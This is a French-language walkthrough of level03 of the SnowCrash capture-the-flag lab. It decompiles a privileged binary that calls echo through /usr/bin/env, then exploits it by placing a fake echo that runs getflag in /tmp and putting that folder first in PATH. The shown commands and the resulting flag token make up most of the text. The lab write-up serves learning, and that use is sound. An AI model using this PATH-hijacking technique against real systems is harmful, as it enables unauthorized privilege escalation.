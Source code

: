 # Recherche des fichiers disponibles

Avec la commande ls, on trouve le binaire **level03** dans le home de l'utilisateur **level03**.

```bash
level03@SnowCrash:~$ ls
level03
```

En décompilant le binaire via le site [dogbolt](https://dogbolt.org)
On observe : `return system("/usr/bin/env echo Exploit me");`

Ce code utilise `/usr/bin/env` pour exécuter la commande `echo`.

Cela signifie que le système va rechercher le binaire echo dans les chemins définis dans la variable d’environnement `$PATH`.

Une première idée aurait été de remplacer directement `/bin/echo` par `/bin/getflag`, afin d'exécuter **getflag** à la place :

```bash
level03@SnowCrash:~$ mv /bin/getflag /bin/echo
mv: try to overwrite `/bin/echo', overriding mode 0755 (rwxr-xr-x)? y
mv: cannot move `/bin/getflag' to `/bin/echo': Permission denied
```

Cette méthode échoue car l'utilisateur **level03** ne possède pas les droits suffisants pour modifier les fichiers système.

On crée alors un faux binaire echo dans un répertoire temporaire, qui exécute simplement `/bin/getflag`.

```bash
level03@SnowCrash:~$ mkdir -p /tmp/t
level03@SnowCrash:~$ echo /bin/getflag > /tmp/t/echo
level03@SnowCrash:~$ chmod +x /tmp/t/echo
```

Puis on modifie la variable `$PATH` pour que notre faux echo soit prioritaire :
```bash
level03@SnowCrash:~$ export PATH=/tmp/t:$PATH
```

En lançant le binaire `level03`, notre faux echo est utilisé, ce qui déclenche l’exécution de **getflag**.
```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
